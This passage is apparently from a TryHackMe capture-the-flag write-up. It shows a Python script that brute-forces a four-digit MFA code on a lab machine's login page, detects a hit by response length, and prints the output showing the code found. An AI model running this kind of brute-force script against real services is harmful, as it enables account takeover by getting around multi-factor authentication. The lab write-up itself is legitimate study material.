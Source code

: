 ```
fred we need to put some brute force protection on here remind me in the morning jason
```

***Again, I'll write a [simple python script](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/biteme/mfa_brute.py) to bruteforce it:***

**mfa_brute.py:**
```py
#!/usr/bin/env python3

import requests

url = 'http://10.10.136.9/console/mfa.php'
cookies = {'pwd': 'muhuo', 'user': 'jason_test_account'}
code = ["%04d" % num for num in range(10000)] # A list that stores 0000 to 9999

for number in code:
	payload = {'code': number}
	r = requests.post(url, cookies=cookies, data=payload)

	incorrect_msg = str(r.headers['Content-length'])
	print('\r', end='') # Clear previous line.
	print(f'[+] Bruteforcing code: {number}\n', end='')

	if incorrect_msg != "919": # Incorrect code content length is 919.
		print(f'[+] Found MFA code: {number}')
		exit()
```

**Output:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# python3 mfa_brute.py
[+] Bruteforcing code: 2416
[+] Found MFA code: 2416
```

Found it!

> Note1: Each time the machine started, the code will be regenerated.

> Note2: Since I'm still learning python, I'm not good at building a multithreading script, so the bruteforce script is kinda slow.

**Armed with this information, we now finally can login into the login page!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/biteme/images/a7.png)

